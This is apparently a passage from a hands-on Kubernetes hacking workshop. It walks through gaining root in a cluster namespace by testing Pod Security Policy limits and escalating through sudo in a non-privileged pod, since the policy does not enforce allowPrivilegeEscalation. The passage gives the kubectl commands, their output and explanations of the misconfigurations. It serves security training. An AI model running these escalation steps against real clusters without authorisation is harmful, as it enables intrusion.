

# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 4: Setting up a beachhead in the cluster](#part-4--setting-up-a-beachhead-in-the-cluster)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 4: Setting up a beachhead in the cluster

Now that we have Permissions in this secure name space let's see if we can escalate our privileges to break into more areas.
1. First of all, let's exec into the `webadmin` Pod and see what's available to us. Get the Pod name and
   exec into it:
   ```shell
   $ kubectl get pod -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h37m
   
   $ kubectl exec -n secure -it webadmin-69dd65c7f9-hx9cr -- bash
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$
   ```

   
2. Now that we have a shell in the Pod, let's see if we are (or can become) root. Check our user with `whoami`:
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ whoami
   webadmin
   ```
   Not root, but can we become root with `sudo su-`?
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ sudo su -
   bash: sudo: command not found
   ```
   No `sudo`. This tells us the image is better constructed than many default ones as the authors have taken the time
   to change to a non-root user and are not shipping sudo.


3. Let's see if we can make modifications to the filesystem: `touch test`
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ touch test
   
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ ls -l test
   -rw-r--r-- 1 webadmin webadmin 0 Aug 30 18:27 test
   
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ df .
   Filesystem     1K-blocks     Used Available Use% Mounted on
   overlay         61255492 14359844  43754324  25% /
   ```
   We can write to the root filesystem the means we could download software or change configuration.
   We already know we have curl, so that's definitely possible. This is a vulnerability, caused by not
   setting `readonlyRootFilesystem=true` in the Pod SecurityContext and enforcing it in the PSP.

   While this is interesting, it's going to be hard to elevate privileges to root in the Pod so exit out of
   the exec session, and we'll move on for now.


4. Let's try to launch a pod with a root user using the manifest [demo_yamls/root_pod.yaml](../demo_yamls/root_pod.yaml)
   which consists of a container running the `alpine` image that simply sleeps but runs as root by default.

   Deploy the Pod via: `kubectl apply -f demo_yamls/root_pod.yaml -n secure`:
   ```shell
   $ kubectl apply -f demo_yamls/root_pod.yaml -n secure
   pod/root-pod created
   ```

   
5. Check that it started with `kubectl get pods -n secure`
   ```shell
   $ kubectl get pods -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   root-pod                    0/1     CreateContainerConfigError   0          29s
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h21m
   ```
   The `CreateContainerConfigError` status tells us something went wrong so we will need to look into the
   Pod descrition for more info: `kubectl describe pod root-pod -n secure`
   ```shell
   $ kubectl describe pod root-pod -n secure
   Name:         root-pod
   Namespace:    secure
   ...
     Warning  Failed     111s (x8 over 3m16s)  kubelet            Error: container has runAsNonRoot and image will run as root (pod: "root-pod_secure(65ba8870-6615-469c-9bd0-f97715e7983a)", container: justsleep)
   ...
   ```
   From this warning we know that something is blocking us deploying a container running as root, likely
   Pod Security Policy.


6. Let's try and launch a privileged pod running as non-root using the [demo_yamls/nonroot_priv.yaml](../demo_yamls/nonroot_priv.yaml)
   manifest. That Pod runs a container image we've built with a non-root user but in Privileged mode:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml -n secure`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml -n secure
   Error from server (Forbidden): error when creating "demo_yamls/nonroot_priv.yaml": pods "nonroot-priv" is forbidden: PodSecurityPolicy: unable to admit pod: [spec.containers[0].securityContext.privileged: Invalid value: true: Privileged containers are not allowed]
   ```
   Here we can see we've definitely got a PSP that's restricting us in that namespace.
   _(Another way to tell that PSP's are being applied is to look for `kubernetes.io/psp` annotations in
   your Pod describe output.)_


7. Restricting Privileged mode is very common in PSPs so let's change our tactic a bit and run a Pod
   with the same image but without privileged mode as defined in [../demo_yamls/nonroot_nonpriv.yaml](../demo_yamls/nonroot_nonpriv.yaml).
   Run `kubectl apply -f demo_yamls/nonroot_nonpriv.yaml -n secure` and then check the Pod list:
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_nonpriv.yaml -n secure
   pod/snyky created
   
   $ kubectl get pods -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   root-pod                    0/1     CreateContainerConfigError   0          16m
   snyky                       1/1     Running                      0          19s
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h37m
   ```
   Progress!


8. Now we will exec into our new Pod and see what we can do: `kubectl exec -n secure -it snyky -- bash`
   ```shell
   $ kubectl exec -n secure -it snyky -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@snyky:/root$
   ```
   Now, try the same `whoami` and `sudo` opperation from before:
   ```shell
   snyky@snyky:/root$ whoami
   snyky
   snyky@snyky:/root$ sudo su -
   root@snyky:~# whoami
   root
   ```
   Success! We have root in a Pod in the target cluster!

   But why did this work? This is because the PSP doesn't include enforcement of the `allowPrivilegeEscalation=false`
   SecurityContext setting. This is a common error because many assume that the `privileged: false` also
   covers PrivilegeEscalation, but it does not so any binary with the SUID bit set, can elevate privileges
   if that restriction is not explicitly configured.

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.

#### New info:
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective


#### Timeline of Doom
Updated progress toward total ownership of the target cluster.


## Next step
In the [next step](02e-exploit.md) we leverage our elevated privileges to further explore the cluster and see if any other
targets exist elsewhere in the cluster.
